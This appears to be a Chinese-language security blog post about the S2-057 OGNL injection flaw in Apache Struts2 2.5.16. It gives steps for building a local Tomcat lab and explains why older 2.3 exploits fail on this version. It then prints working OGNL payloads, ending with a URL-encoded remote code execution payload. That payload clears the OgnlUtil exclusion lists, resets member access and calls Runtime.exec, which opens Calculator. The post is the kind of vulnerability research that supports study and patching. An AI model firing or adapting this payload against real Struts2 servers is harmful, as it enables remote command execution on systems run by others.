 # S2-057 漏洞环境搭建及EXP构造(Struts2 2.5.16)

# 环境搭建

环境说明:

> 1. Struts2 2.5.16
> 2. Tomcat 9.6.0
> 3. Intellij IDEA

首先下载Struts2的包以及Tomcat,Struts2的包地址如下:

> https://archive.apache.org/dist/struts/2.5.16/struts-2.5.16-all.zip

将 /apps 下的 struts2-showcase.war 放入Tomcat 的 /webapps 下,如图:



将 /webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml 以及 /webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining/xml 内的内容更换如下:

```java
<!DOCTYPE struts PUBLIC
	"-//Apache Software Foundation//DTD Struts Configuration 2.5//EN"
	"http://struts.apache.org/dtds/struts-2.5.dtd">

<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
            <result type="redirectAction">
                <param name = "actionName">register2</param>
            </result>
        </action>
    </package>
</struts>

```

回到 /bin 目录,执行:

> ./startup.sh

便可以启动tomcat服务器,访问

> http://0.0.0.0:8080/struts2-showcase/

若能看到正常返回,则环境搭建正常,继续访问:

> http://0.0.0.0:8080/struts2-showcase/actionchaining/${(1+1)}/register2.action

发现跳转到了:

> http://0.0.0.0:8080/struts2-showcase/actionchaining/2/register2.action

漏洞环境至此搭建完成

# 漏洞原理分析

这一部分,chybeta师傅讲的很清楚了,附上链接:

> https://xz.aliyun.com/t/2618

# EXP构造

网上放出的exp基本都是 Struts2 比较老的版本,对于2.5.16这种比较新的版本而言,ognl新添了部分过滤.

因此相比较于网上常见的2.3的exp,2.5的exp需要进行部分改动.

在2.5.16的环境下使用payload:

> ${(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))}

观察url会返回:

> http://0.0.0.0:8080/struts2-showcase/actionchaining/com.opensymphony.xwork2.ognl.OgnlUtil@55dd2f12/register2.action

可以发现,这一部分的取值是能够正常进行的,而我们再看看2.3版本的exp(图是直接从其他师傅博客扒的:

![](https://otakekumi.github.io/img/13.png)


我们可以看到,一开始调用OgnlContext去获取member_access,而我们再看下2.5版本的ExcludedClass:

![](https://otakekumi.github.io/img/14.png)

![](https://otakekumi.github.io/img/15.png)

因此需要对exp进行部分改动.我们可以通过setExcludedClasses与setExcludedPackageNames来覆盖默认的设置,因此我们便可以引入ognl.OgnlContext了.


附上弹计算器的payload:

> http://0.0.0.0:8080/struts2-showcase/actionchaining/$%7B(%23ct=%23request['struts.valueStack'].context).(%23cr=%23ct['com.opensymphony.xwork2.ActionContext.container']).(%23ou=%23cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(%23ou.setExcludedClasses('java.lang.Shutdown')).(%23ou.setExcludedPackageNames('sun.reflect.')).(%23dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(%23ct.setMemberAccess(%23dm)).(%23cmd=@java.lang.Runtime@getRuntime().exec('open%20/Applications/Calculator.app'))%7D/actionChain1.action

